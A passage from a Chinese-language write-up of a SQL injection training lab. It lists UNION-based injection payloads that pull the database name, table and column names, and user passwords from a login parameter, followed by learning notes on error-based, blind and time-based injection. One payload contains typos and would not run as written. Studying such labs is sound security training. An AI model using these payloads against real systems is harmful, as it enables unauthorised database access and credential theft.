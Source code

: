 `uname=-admin' union select 1,2,database() --+`

[![Bp3uRO.jpg](https://s1.ax1x.com/2020/10/20/Bp3uRO.jpg)](https://imgchr.com/i/Bp3uRO)

5.爆表名

`uname=-admin' union select 1,2,group_concat('|',table_name'|') from information_schema.columns where table_schema=databae() --+`

其余的步骤就同最初几关非常相似了

`uname=-admin' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`

`uname=-admin' union select 1,2,group_concat('|',username,'~',password,'|') from users --+`

结果成功回显
***

# 收获
*  错误信息

根据错误信息可以得到路径，闭合方式

没有错误信息要考虑bool或者时间延迟
***
***
# 疑问

7.(1)如何获取文件所在的路径

7.(2)为什么绝对路径要加双斜杠

18.(1)为什么SQL语句要加反引号
        
    这是为了区分MySql的保留字符和普通字符
    
    在user表中，有个user字段，如果不用反引号，MYSQL将把user视为保留字而导致出错，所以，有MYSQL保留字作为字段的，必须加上反引号来区分。
***
